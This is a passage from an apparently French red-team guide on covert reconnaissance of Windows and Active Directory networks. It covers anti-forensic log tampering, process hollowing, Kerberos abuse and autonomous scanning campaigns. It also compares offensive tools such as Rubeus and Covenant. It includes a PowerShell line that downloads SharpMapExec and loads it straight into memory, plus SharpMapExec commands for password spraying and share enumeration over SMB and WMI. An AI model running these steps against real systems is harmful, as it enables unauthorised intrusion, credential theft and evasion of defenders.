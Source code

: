 L'approche anti-forensique inclut la manipulation des logs Windows, l'utilisation de techniques de process hollowing, l'exploitation des mécanismes de délégation Kerberos et l'implémentation de canaux de communication chiffrés pour masquer les activités de reconnaissance. Cette stratégie globale permet d'opérer dans des environnements où la détection compromettrait immédiatement la mission.

#### 1.4 Automatisation intelligente et orchestration de campagnes

La reconnaissance avancée des infrastructures Windows complexes nécessite une automatisation sophistiquée capable de s'adapter dynamiquement aux conditions réseau et aux contre-mesures de sécurité. L'orchestration intelligente analyse les réponses système, ajuste les techniques d'évasion et optimise les stratégies de reconnaissance basées sur les découvertes intermédiaires.

Cette approche inclut l'implémentation d'algorithmes d'apprentissage pour identifier les patterns de détection, l'utilisation de techniques de machine learning pour optimiser les paramètres de scan, et le développement de systèmes autonomes capables de conduire des campagnes de reconnaissance prolongées sans intervention humaine.


### 2 • Outils & Commandes

#### Tableau comparatif des outils Windows avancés

| Outil | Spécialisation | Évasion | Complexité | Performance |
|-------|----------------|---------|------------|-------------|
| SharpMapExec | Exécution distribuée | Très élevée | Élevée | Très élevée |
| SharpView | Énumération AD | Élevée | Moyenne | Élevée |
| Rubeus | Manipulation Kerberos | Très élevée | Très élevée | Élevée |
| Covenant | C2 Framework | Très élevée | Très élevée | Très élevée |
| WinRM Pivot | Tunneling natif | Élevée | Moyenne | Élevée |
| DCOM Lateral | Mouvement latéral | Très élevée | Élevée | Moyenne |

#### SharpMapExec pour l'exécution distribuée

```powershell
# Téléchargement et exécution de SharpMapExec
$SharpMapExecUrl = "https://github.com/cube0x0/SharpMapExec/releases/latest/download/SharpMapExec.exe"
$SharpMapExec = (New-Object Net.WebClient).DownloadData($SharpMapExecUrl)
[System.Reflection.Assembly]::Load($SharpMapExec)
```
SharpMapExec permet l'exécution distribuée de commandes avec gestion avancée des credentials et techniques d'évasion.

```cmd
REM Exécution distribuée avec authentification NTLM
SharpMapExec.exe ntlm smb /targets:targets.txt /users:users.txt /passwords:passwords.txt /domain:corp.local

REM Scan de ports distribué via WMI
SharpMapExec.exe ntlm wmi /targets:192.168.1.0/24 /users:admin /passwords:password123 /command:"netstat -an"

REM Énumération des partages avec credentials
SharpMapExec.exe ntlm smb /targets:targets.txt /users:serviceaccount /passwords:pass123 /shares
```
